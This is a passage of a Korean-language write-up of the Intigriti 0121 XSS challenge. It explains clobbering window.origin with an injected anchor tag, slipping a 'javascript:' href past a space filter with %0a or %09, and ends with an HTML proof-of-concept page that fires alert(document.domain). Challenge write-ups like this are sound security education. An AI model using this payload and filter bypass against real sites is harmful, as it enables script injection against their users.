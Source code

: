 ```
https://*.challenge-0121.intigriti.io/
```
하지만 그냥 보내주면 `domain` 인식을 못 할 거 같았는데, 위와 같이 라우팅이 되어 있어 앞 부분에 어떤 값을 넣어줘도 `https://challenge-0121.intigriti.io/`로 요청이 가게 되어 있었다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Intigriti%200121/images/3.png?raw=true)

그래서 `script.js` 11번째 라인에 브레이크 포인트를 걸고, `javascript.challenge-0121.intigriti.io/`로 요청을 보내 준 후에 포문이 끝나고, `window.origin`의 값을 확인해보니 `undefined`인 것을 확인 할 수 있었다.

그럼 이제 `window.origin`을 긁어 오게 되면 따로 정의가 되어 있지 않아 다른 값을 참아 참조하게 된다. 

여기까지 분석을 통해서 익스의 필요한 모든 요소들을 확인할 수 있었다. `window.origin`이 a 태그를 참조하게 해서, `a` 태그의 들어 있는 `href`로 리다이렉트 시키면 된다. 또한 `a` 태그는 `setTimeout('~', 5000)`이 실행되면 그 5초 동안 밑에서 우리가 입력한 값을 `a` 태그의 `href` 속성으로 넣어주는 것을 볼 수 있다.

그렇기에 `setTimeout()` 함수 내부에서 `window.origin`을 긁어 올 때는, 이미 우리가 `a` 태그를 생성한 후 이기 때문에 `a` 태그의 `href`를 잘 긁어올 수 있을 것이다.

```
r Parameter : Javascript:alert(document.domain)/%00id=origin
Result : <a href='Javascript:alert(document.domain)/'%00id='origin'>
```
그래서 일단 위와 같이 r의 값으로 보내주었다. `%00`을 준 이유는 `href` 속성과 `id` 속성을 분류하기 위해서 이고, `%20`이 아닌 널 바이트를 준 이유는 공백은 필터링을 하고 있기 때문이다. 그럼 위와 같이 `a` 태그가 생성이 될 것 이고, 5초가 지나면 `window.origin + '/' + url`에 의해서 `Javascript:alert(document.domain)//Javascript:alert(document.domain)/%00id=origin`가 될 것이다. 그리고 여기서 r의 값에서 alert() 함수 뒤에 슬래쉬를 넣어준 이유는 JS 문법 에러를 피하기 위해서다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Intigriti%200121/images/4.png?raw=true)

하지만 ㅋㅋ 위와 같이 널 바이트가 바이트 값 그대로 들어가서 잘 안 된 것을 볼 수 있다.. 그래서 그냥 SQLI에서 사용되는 공백 바이패스로 `%0a`나 `%09`를 이용 하기로 했다. 

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Intigriti%200121/images/5.png?raw=true)

%09나 %0a로 해주니 잘 들어갔다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Intigriti%200121/images/6.png?raw=true)

그리고 5초를 기대려 주니 `setTimeout()` 함수에 내부 로직이 실행되어 XSS가 트리거 되었다.

---
## Poc (Sollution)

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Intigriti 0121 Poc</title>
        <script>
            const poc = 'Javascript:alert(document.domain)/%0aid=origin'
            const url = `https://javascript.challenge-0121.intigriti.io/?r=${poc}`

            const exploit = function (){
                window.open(url);
            }
        </script>
    </head>
    <body>
        <h1>Intigriti XSS Challenge 0121</h1>

        <h3>If you click the button below and execute poc code, You can trigger the xss.</h3>
        <input type="button" onclick=exploit() value="Trigger">
    </body>
</html>
```
